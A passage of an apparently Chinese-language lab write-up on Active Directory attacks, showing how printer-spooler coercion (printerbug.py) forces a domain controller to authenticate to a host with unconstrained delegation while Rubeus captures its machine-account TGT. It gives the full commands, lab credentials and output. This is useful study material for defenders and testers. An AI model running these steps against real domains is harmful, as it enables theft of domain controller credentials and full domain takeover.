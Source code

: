 注：Win2022不支持mimikatz的部分功能，这部分用win7完成的

## 2、结合打印机漏洞攻击
之前的手法需要管理员主动连接配置了非约束委派攻击的主机，才能取得域管的TGT，实战意义不大。

可以通过打印机服务漏洞来强制域控连接配置了非约束委派的域控机器账号的TGT，不需要域管理员进行交互。

在Win7上使用Rubues监听来自AD01主机的票据

```plain
C:\Users\Administrator\Desktop>Rubeus.exe monitor /interval:1 /filteruser:DC1$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: TGT Monitoring
[*] Target user     : AD01$
[*] Monitoring every 1 seconds for new TGTs
```

然后使用打印机服务漏洞攻击域控AD01，使其强制回连认证Win7主机

ps：由于使用SpoolSample会出现闪退，此处使用printerbug.py

```plain
C:\root\tools\krbrelayx> python3 printerbug.py sec/test1:'Az123456@'@192.168.30.2 win7-1
[*] Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at 192.168.30.2
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked

```

可能会报错，但实际上已经成功返回base64格式的TGT

```plain
C:\Users\Administrator\Desktop>Rubeus.exe monitor /interval:1 /filteruser:DC1$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: TGT Monitoring
[*] Target user     : DC1$
[*] Monitoring every 1 seconds for new TGTs

[*] 10/7/2024 11:44:26 AM UTC - Found new TGT:

  User                  :  DC1$@SEC.COM
  StartTime             :  10/7/2024 7:34:33 PM
  EndTime               :  10/8/2024 5:34:27 AM
  RenewTill             :  10/14/2024 7:34:27 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded,
```